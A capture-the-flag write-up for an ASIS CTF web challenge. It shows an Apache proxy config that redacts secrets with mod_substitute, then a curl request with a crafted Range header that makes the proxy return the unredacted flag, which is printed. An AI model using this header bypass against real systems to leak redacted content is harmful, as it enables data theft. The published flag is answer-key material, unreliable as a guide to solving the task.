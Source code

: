 #  Less secure secrets 
**Category:** Web
**points:** 71
**solves:** 70

# Description:
Let's warm up!

# Solution: 
The goal of the challenge is to get the flag inside : https://securesecrets.asisctf.com/secret.html
But the flag is removed in apache proxy configuration here:  
```
ServerName proxy

LoadModule deflate_module /usr/local/apache2/modules/mod_deflate.so
LoadModule proxy_module /usr/local/apache2/modules/mod_proxy.so
LoadModule substitute_module /usr/local/apache2/modules/mod_substitute.so
LoadModule proxy_http_module /usr/local/apache2/modules/mod_proxy_http.so

<VirtualHost *:80>
    RequestHeader unset Accept-Encoding
    ProxyPass / http://main/
    ProxyPassReverse / http://main/

    SetEnvIf X-Http-Method-Override ".+" X-Http-Method-Override=$0
    RequestHeader set X-Http-Method-Override %{X-Http-Method-Override}e env=X-Http-Method-Override

    SetEnvIf Range ".+" Range=$0
    RequestHeader set Range %{Range}e env=Range

    SetEnvIf Via ".+" Via=$0
    RequestHeader set Via %{Via}e env=Via

    SetEnvIf If-Match ".+" If-Match=$0
    RequestHeader set If-Match %{If-Match}e env=If-Match

    <if "%{REMOTE_ADDR} != '127.0.0.1'">
        AddOutputFilterByType INFLATE;SUBSTITUTE;DEFLATE text/html
        Substitute s|<secret>(.*)</secret>|Protected|i
    </if>
    
    # Send apache logs to stdout and stderr
    CustomLog /proc/self/fd/1 common
    ErrorLog /proc/self/fd/2
</VirtualHost>
```

The part where it removes the secret is here : 
```
   <if "%{REMOTE_ADDR} != '127.0.0.1'">
        AddOutputFilterByType INFLATE;SUBSTITUTE;DEFLATE text/html
        Substitute s|<secret>(.*)</secret>|Protected|i
    </if>
```

The proxy foward 3 headers : 
* X-Http-Method-Override
* Range 
* Via

The interesting header is Range, making a request with range you can break the html code so that the parser doesn't work and the regex can't replace the flag with "Protected":
The solution is : 
```
$ curl -H 'Range: bytes=785-808' https://securesecrets.asisctf.com/secret.html
ASIS{L3T5_S74rT_7h3_fUn}                                                                                                                                                                                                                     ------------------------------------------------------------
```

